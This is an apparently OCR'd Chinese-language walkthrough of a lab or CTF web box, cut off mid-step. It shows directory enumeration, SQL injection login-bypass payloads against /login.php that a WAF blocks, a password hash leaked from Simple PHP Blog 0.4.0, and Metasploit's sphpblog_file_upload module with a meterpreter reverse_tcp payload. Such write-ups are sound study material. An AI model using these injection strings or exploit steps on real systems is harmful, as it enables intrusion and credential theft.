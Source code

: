     [13:09:18] 200 -  723B  - /register.php                                     
    [13:09:18] 200 -  723B  - /register            
    ```
    
2. 访问敏感目录
    - `/blog/` blog博客页面
    - `/blog/login.php` blog登陆页面
    - `/info.php` phpinfo
    
    都是注册或者登陆界面
    
3. `/index.php`泄露了管理员邮箱尝试弱密码爆破`admin@isints.com` ，爆破失败
    - 在`/login.php`界面尝试`sql`注入，在**`Email Address`** 后面加`'` 爆出sql语句
        
        ```sql
        admin@isints.com'
        ```
        
        ```sql
        An error occurred in script '/var/www/login.php' on line 47: Query: SELECT * FROM users WHERE email='admin@isints.com'' AND pass='356a192b7913b04c54574d18c28d46e6395428ab' AND active IS NULL 
        ```
        
    - 加上`#`号闭合语句让语句为真
        
        ```sql
        email=admin@isints.com'#&pass=1&submit=Login&submitted=TRUE
        ```
        
        提示：`WAF: SQL Injection Attack Detected. Details Logged. Denying Session. Goodbye!` 被WAF阻止了，换路子
        
4. 尝试寻找`/blog/` 的漏洞
    - 打开`F12`，看看能不能查到是什么CMS，找到 `Simple PHP Blog 0.4.0` 可能就是CMS的名称
    - 网上查阅`Simple PHP Blog 0.4.0` 的漏洞
        
        敏感文件泄露：https://github.com/advisories/GHSA-p35h-cp5r-m46j ，在`/blog/config/` 泄露了`password.txt` 获得密码 `$1$weWj5iAZ$NU4CkeZ9jNtcP/qrPC69a/` 使用 hash-identifier 识别不到
        
    - 使用`msf`查找是否存在漏洞
        
        ```sql
        msf6 > search simple php blog
        //
        Matching Modules
        ================
        
           #  Name                                      Disclosure Date  Rank       Check  Description
           -  ----                                      ---------------  ----       -----  -----------
           0  exploit/unix/webapp/sphpblog_file_upload  2005-08-25       excellent  Yes    Simple PHP Blog Remote Command Execution
        ```
        
        存在，使用该`exploit`模块
        
        ```sql
        msf6 > use exploit/unix/webapp/sphpblog_file_upload //使用该模块
        [*] No payload configured, defaulting to php/meterpreter/reverse_tcp
        msf6 exploit(unix/webapp/sphpblog_file_upload) > show options //查看该模块需要配置什么
        